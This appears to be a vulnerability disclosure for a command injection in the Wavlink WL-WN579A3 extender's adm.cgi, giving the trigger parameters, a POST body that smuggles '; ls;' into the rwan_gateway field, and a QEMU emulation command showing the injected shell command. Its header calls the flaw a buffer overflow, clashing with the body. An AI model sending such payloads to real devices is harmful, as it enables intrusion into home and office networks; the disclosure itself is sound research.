





**Affected Product**: Wavlink-WL-WN579A3

**Affected Firmware Versions**:  v1.0

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: CVE-2025-44880

CNVD:CNVD-2025-11239


# Wavlink-WL-WN579A3 introduced

**Wavlink-WL-WN579A3** is engineered to deliver dual-band signal extension and expansive coverage, making it an exceptional solution for homes, offices, and hybrid indoor-outdoor networking environments. Equipped with a built-in high-power amplifier, this high-performance Wi-Fi range extender effortlessly penetrates thick walls and obstacles, ensuring stable connectivity across large areas.




# **Description**:

A command injection vulnerability exists in the network configuration management module's CGI script (`./etc/lighttpd/www/cgi-bin/adm.cgi`). The flaw is triggered when user-supplied input is concatenated and passed to the `system()` function via the `sub_4018E8` routine. This module manages various WAN interface configurations (e.g., DHCP, PPPoE, 4G, PPTP/L2TP).


# exploit：


The vulnerability occurs at code address `0x0040300C`




with the critical string construction performed at `0x00402EA8`, where several parameters (such as v112, v67, v79, v111, and v81) are fully user-controlled. 






Under specific conditions—when the HTTP parameters include:

```
page=wan&Wan0T=5&wan_type_4g=AUTO4G&Second_wan_value=STATIC
HTTP_REFERER=wifi.wavlink.com
```


—and the POST data is crafted as follows:

```
page=wan&Wan0T=5&wan_type_4g=AUTO4G&Second_wan_value=STATIC&ppp_username=admin2860&ppp_passwd=0&ppp_setver=0&Igmp_proxy_value=0&rwan_ip=0&rwan_mask=0&rwan_gateway=0; ls;
```


Executing within a chrooted QEMU environment:

```
sudo chroot . ./qemu-mipsel-static -E CONTENT_LENGTH=1111 -cpu 74Kf  -g 1234 -E HTTP_REFERER=wifi.wavlink.com  -L ./lib ./etc/lighttpd/www/cgi-bin/adm.cgi < post_data.txt

```


Debugging confirms execution within `system()`




—the resulting command assembled by the application is:

```
dual_wan.sh pptp admin2860 0 0 static 0 0 0; ls; 1>/dev/null 2>&1
```

This command not only executes the intended script (`dual_wan.sh`) but also the injected `ls` command, which confirms that arbitrary command execution is possible. Given the potential for information disclosure and further system compromise, this issue is critical and should be addressed promptly.
